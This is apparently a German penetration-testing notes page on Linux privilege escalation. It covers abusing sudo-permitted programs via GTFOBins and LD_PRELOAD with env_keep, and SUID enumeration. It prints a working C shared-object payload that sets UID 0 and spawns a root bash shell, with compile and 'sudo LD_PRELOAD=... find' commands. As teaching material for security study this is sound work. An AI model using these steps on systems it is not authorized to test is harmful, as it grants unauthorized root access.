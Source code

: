 * Ausnutzen von Funktionen von Systemen die keine bekannte Schwachstelle haben ( Leverage application functions ) wie bspw. `apache2 -f` zum Laden alternativer ServerConfigFiles

Dabei kann `sudo -l` zur Anzeige der eigenen Berechtigungen sowie [https://gtfobins.github.io/](https://gtfobins.github.io/) verwendet werden.

* Ausnutzen von Shared Libraries durch LD\_PRELOAD

<div align="left"><figure><img src="https://i.imgur.com/gGstS69.png" alt=""><figcaption></figcaption></figure></div>

Wenn die Option "`env_keep`" aktiviert ist, können wir eine gemeinsam genutzte Bibliothek erzeugen, die geladen und ausgeführt wird, bevor das Programm ausgeführt wird.

Die Option `LD_PRELOAD` wird ignoriert, wenn die tatsächliche Benutzer-ID nicht mit der effektiven Benutzer-ID übereinstimmt.

Die Schritte dieses Vektors der Privilegienerweiterung lassen sich wie folgt zusammenfassen;

1. Prüfung auf LD\_PRELOAD (mit der Option env\_keep)&#x20;
2. Schreiben eines einfachen C-Codes, der als Share-Objekt-Datei (.so-Erweiterung) kompiliert wird&#x20;
3. Ausführen des Programms mit sudo-Rechten und der Option LD\_PRELOAD, die auf unsere .so-Datei verweist

<pre><code>Der C-Code erzeugt eine einfach Root-Shell

#include &#x3C;stdio.h>
#include &#x3C;sys/types.h>
#include &#x3C;stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

#Kompilierung in ein shared object file mit gcc
<strong>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
</strong></code></pre>

```
# Program laden
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

## SUID ( [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) )

```
# suid-bit s
-rwsr-xr-x

# gesetzt wurde es mit
chmod u+s <datei>

# Liste Dateien mit gesetztem SUID/SGID -Bit
find / -type f -perm -04000 -ls 2>/dev/null

# Programm mit dynamischem Linker starten
/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /path/to/suid/program

# Welche Bibliotheken lädt das Programm beim Start
/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 --list /bin/bash
```
